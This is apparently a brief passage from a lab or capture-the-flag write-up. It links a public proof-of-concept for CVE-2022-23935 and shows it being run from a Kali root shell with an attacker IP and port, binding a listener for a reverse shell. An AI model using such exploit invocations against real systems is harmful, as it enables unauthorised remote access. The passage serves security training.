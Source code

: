 ![](/assets/obsidian/4d3a7bcea3550006aedd4b9ced3d22e9.png)


### Using Automated POC script

There's already a neat POC
- https://github.com/0xFTW/CVE-2022-23935

```bash
┌──(root㉿kali)-[~/investigation/CVE-2022-23935]
└─# ./CVE-2022-23935.py 10.10.14.45 1111
[+] Connected!!!!

   _____ __      __ ______      ___    ___  ___   ___        ___   ____    ___  ____   _____
  / ____|\ \    / /|  ____|    |__ \  / _ \|__ \ |__ \      |__ \ |___ \  / _ \|___ \ | ____|
 | |      \ \  / / | |__  ______  ) || | | |  ) |   ) |______  ) |  __) || (_) | __) || |__
 | |       \ \/ /  |  __||______|/ / | | | | / /   / /|______|/ /  |__ <  \__, ||__ < |___ \
 | |____    \  /   | |____      / /_ | |_| |/ /_  / /_       / /_  ___) |   / / ___) | ___) |
  \_____|    \/    |______|    |____| \___/|____||____|     |____||____/   /_/ |____/ |____/

                                            by 0xFTW

[+] Trying to bind to :: on port 1111: Done
```